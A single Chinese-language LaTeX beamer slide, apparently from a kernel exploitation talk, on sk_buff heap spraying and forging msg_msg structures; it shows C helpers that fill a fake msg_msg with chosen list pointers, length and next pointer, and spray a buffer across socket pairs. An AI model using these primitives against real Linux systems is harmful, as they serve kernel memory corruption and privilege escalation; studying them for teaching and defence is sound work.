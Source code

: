 \documentclass[xcolor=table]{beamer}
\begin{document}
\begin{frame}[fragile]
\frametitle{skb堆喷并伪造辅助消息}

\begin{columns}[c]


\small{伪造辅助消息的时候需要着重关注m\_ts字段，它表示消息长度}
\tiny\begin{lstlisting}[language=c]
    void build_msg_msg(struct msg_msg *msg, uint64_t m_list_next,
                       uint64_t m_list_prev, uint64_t m_ts, uint64_t next) {
        msg->m_list_next = m_list_next;
        msg->m_list_prev = m_list_prev;
        msg->m_type = MTYPE_FAKE;
        msg->m_ts = m_ts;
        msg->next = next;
        msg->security = 0;
    }
    int spray_skbuff(int ss[NUM_SOCKETS][2], const void *buf, size_t size) {
        for (int i = 0; i < NUM_SOCKETS; i++) {
            for (int j = 0; j < NUM_SKBUFFS; j++) {
                if (write(ss[i][0], buf, size) < 0) {
                    perror("[-] write");
                    return -1;
                }
            }
        }
        return 0;
    }
\end{lstlisting}



\begin{figure}[H]
\centering
\includegraphics[width=\textwidth]{pic/6}%
\end{figure}

	
\end{columns}




\end{frame}
\end{document}
